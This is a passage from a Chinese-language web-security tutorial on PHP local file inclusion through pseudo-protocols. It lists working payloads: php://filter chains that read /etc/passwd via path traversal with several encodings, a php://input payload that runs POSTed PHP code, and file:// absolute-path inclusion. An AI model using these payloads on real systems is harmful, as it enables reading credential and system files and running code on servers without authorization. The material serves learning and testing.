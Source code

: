 这样就可以得到被包含文件经过base64编码后的值：

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5rvat32j316v06emxp.jpg)

还可以使用其他不同的编码方式来对被包含文件进行编码：

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5rz7kcvj30wn01oglh.jpg)


``` htmlbars
php://filter/read=string.rot13/resource=../../../../etc/passwd

php://filter/convert.iconv.utf-8.utf-16/resource=../../../../etc/passwd
```

还可以对读取到的文件内容进行多次编码

``` htmlbars
对文件内容进行三次base64编码（当然也可以几种编码配合）：
php://filter/convert.base64-encode|convert.base64-encode|convert.base64-encode/resource=/etc/passwd
```

还可以将读出来的数据压缩：

``` htmlbars
压缩：
php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd

解压：
php://filter/convert.base64-decode/zlib.inflate/resource=/etc/passwd
```

#### (2) php://input

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5rvuhcwj310p09vab5.jpg)

简而言之就是php用来读取原始POST数据流的一个伪协议，使用这个伪协议需要php.ini中设置`allow_url_include = On`，而且`Coentent-Type`不能为`multipart/form-data`


常用payload：

`php://input`然后POST传参`<?php phpinfo();?>`


#### (3) file://

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5rw25oqj310o0c074z.jpg)

该协议可以使用绝对路径来包含文件

``` htmlbars
file:///etc/passwd
file://E:/phpstudy/www/index.php
file://E:\phpstudy\www\index.php
```

![Alt text](http://tva1.sinaimg.cn/large/007X8olVly1g8l5rwne7wj30sm07cwfi.jpg)
